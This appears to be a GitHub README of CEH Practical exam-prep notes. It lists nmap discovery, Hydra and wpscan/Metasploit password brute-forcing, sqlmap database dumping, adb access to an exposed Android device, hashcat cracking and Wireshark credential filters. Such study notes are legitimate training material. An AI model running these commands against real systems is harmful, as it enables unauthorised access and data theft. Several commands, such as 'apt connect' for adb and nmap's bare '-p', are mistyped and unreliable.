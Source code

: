 # practicemyself

# CEHvs11

I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.


### Marks:

I will update soon --->


So let's start >>>>>>

### 1. Find the IP target.
 ```
  $ ip addr or
  $ ifconfig
  $ netdiscover -r IP/24
  $ netdiscover  (If not found $ apt-get install netdiscover)
  $ netdiscover -i eth0   (confirm from ifconfig which net/wifi using)
  
 May be IP targets are same. For me, this is the IP (172.16.0.0/24) for my target.
 ```
### 2. Nmap scan all
  ```
  $ nmap IP -sV -sC -p -O -oN output.txt
  
  -iL=import IPs,  --top-ports 1000
  ```
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
  $ locate wordlists
  $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
```
  $ wpscan --url IP --enumerate u
  $ wpscan --url IP -u root -P passwdfile.txt
  
  --enumerate p, -U username, -P password, --usernames userlist.txt, --passwords passwdlist.txt
  
 I was faced problems with WP Scanner to bruteforicing, I recommend to use Metasploit for bruteforcing in Wordpress passwod.
 keep it mind:- Password wordlist are like same but try to find exact password lists.
  
 Using Metasploit==>
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. Hydra
``` 
 Use for FTP:
     $ hydra -l user -P passlist.txt ftp://IP
 Use for SSH:
     $ hydra -l <username> -P passwdlist.txt IP -t 4 ssh
 Use for Web Post:
     $ hydra -l <username> -P <wordlist> 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

- hydra -L usernames.txt -P pass.txt <IP> mysql
- hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V`
- hydra -V -f -L <userslist> -P <passwlist> ***rdp***://<IP>`
- hydra -P common-snmp-community-strings.txt target.com snmp
- hydra -l Administrator -P words.txt 192.168.1.12 smb t 1
```

### 8. FTP
```
FTP Connect
  $ ftp IP
  
  After connect with FTP go to the file
  $ get file.txt
  $ get file1.txt

When I was first connect from the parot server, I did'nt get the file. So I have connected from winodws machine, then i had got the file easily.   
 
https://www.javatpoint.com/ftp-commands
https://www.serv-u.com/linux-ftp-server/commands
```
### 10. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap IP -sV -p 5555
  
  apt install adb (if not available
  Command:
  $ apt connect IP:5555
  $ adb shell
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 11. Stegnography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 12. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier  ->Enter and paste the hash.
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 13. Used Tools
```
Veracrypt = Encryt / Decrypt the Hidden Disk 
Cryptool
Snow
Bctextencoder
Md5 hash calculator
Wpscan
Nmap
Metasploit
Hydra
Wireshark
OWASP ZAP  
RDP
```
### 14. Command Injection (DVWA)
```
DVWA:
Path: C:\wamp64\www\DVWA\hackable\uploads\maybefile

View a file cmd: "type"
Decrypt - https://hashes.com/en/decrypt/hash
```
### 15 SQL Injection with SQLmap:
  ```
  $ sqlmap -u http://site.com?id=1 --cookie="cookies" --risk 3 --level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/?id=1&Submit=Submit" --cookie="cookies1;cookies2" --data="data" --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/cookies.php" --cookie="cookies1;cookies2" --data="data" -p id --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump
```
### 16. Wireshark
```
Filters:
To find DOS (SYN and ACK) : tcp.flags.syn == 1, tcp.flags.syn == 1 and tcp.flags.ack == 0
To find passwords : http.request.method == POST
     Shortcut: Click tools > Credentials

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
https://www.hackers-arise.com/post/2018/09/27/network-forensics-part-2-detecting-and-analyzing-a-scada-dos-attack
```

